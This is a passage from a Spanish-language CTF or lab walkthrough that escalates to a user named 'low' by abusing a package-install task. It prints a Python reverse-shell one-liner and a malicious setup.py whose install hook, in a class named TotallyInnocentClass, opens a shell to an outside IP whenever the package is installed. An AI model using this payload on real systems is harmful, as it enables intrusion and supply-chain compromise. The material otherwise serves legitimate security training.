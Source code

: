 De manera sencilla podemos decirle al script que nos genere una reverse Shell (que si traemos el recuerdo de los mails, sabemos que las tareas sobre paquetes son llevadas a cabo por `low`, por lo tanto obtendremos una sesión como el), yo tome la clásica de Python:

* [Reverse shells cheat sheet](https://ironhackers.es/herramientas/reverse-shell-cheat-sheet/).

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Entonces dentro de la clase que se ejecutara pondremos:

```py
import socket, subprocess, os

from setuptools import setup
from setuptools.command.install import install

class TotallyInnocentClass(install):
    def run(self):
        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect(("10.10.15.86",4444))
        os.dup2(s.fileno(),0)
        os.dup2(s.fileno(),1)
        os.dup2(s.fileno(),2)
        p=subprocess.call(["/bin/sh","-i"]);

        install.run(self)

setup(
    name="pycod3ate",
    version="0.0.5",
    author="exeTera",
    author_email="hor@exe.com",
    description="Killing me",
    url="https://github.com/pypa/sampleproject",
    packages=setuptools.find_packages(),
    classifiers=[
        "Programming Language :: Python :: 3",
        "License :: OSI Approved :: MIT License",
        "Operating System :: OS Independent",
    ],
    cmdclass={
        'install': TotallyInnocentClass
    }
)
```

Para la estructura y entendimiento me base en estos paquetes:

* [Ayrx + malicious-python-package](https://github.com/Ayrx/malicious-python-package/blob/master/setup.py).
* [mschwager + 0wned-package](https://github.com/mschwager/0wned/blob/master/setup.py).
